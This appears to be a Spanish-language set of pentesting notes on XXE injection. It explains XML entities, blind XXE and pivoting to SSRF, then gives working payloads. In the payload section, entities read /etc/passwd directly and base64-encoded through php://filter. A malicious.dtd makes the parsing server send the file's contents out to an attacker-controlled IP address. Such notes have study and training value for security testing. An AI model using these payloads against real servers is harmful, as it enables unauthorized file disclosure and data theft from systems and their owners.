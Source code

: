 -- -
Cuando hablamos de XML External Entity (XXE) Injection, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un Document Type Definition (DTD) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery). Esta técnica de ataque puede permitir a un atacante escanear puertos internos en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener información sensible o incluso tomar el control de los servicios internos.
-- -
## Entidades:
Las entidades son una forma de representar un elemento de datos sin referenciar a los datos como tal, todo esto en un documento XML.

**Tipos de entidades:**
- Genéricas / Customizadas
- Externas (XXE)
- Predefinidas ---> General Entities
	- &lt (Lower Than);
	- &gt (Grater Than); 
- Entidades Parametricas ---> %nombre_entidad;
### Ejemplo de una estructura XML
<?xml version="1.0" encoding="UTF-8"?> ---> Declaración XML
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> ---> DTD (Document Type Definition)
```xml
<root>
	<name>fran</name>
	<tel>5454545as</tel>
	><email>fran@fran.com</email>
	><password>fran123</password>
</root>
```

-- -
## Payloads: 
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
 ```

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE">]>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe;]> # ---> Lo declaro ahi mismo ya que a veces no te deja declararlo en el propio cuerpo. 
```
**Archivo malicious.dtd:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.64.128/?file=%file;'>">
%eval; 
%exfil;
```
-- -
## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 

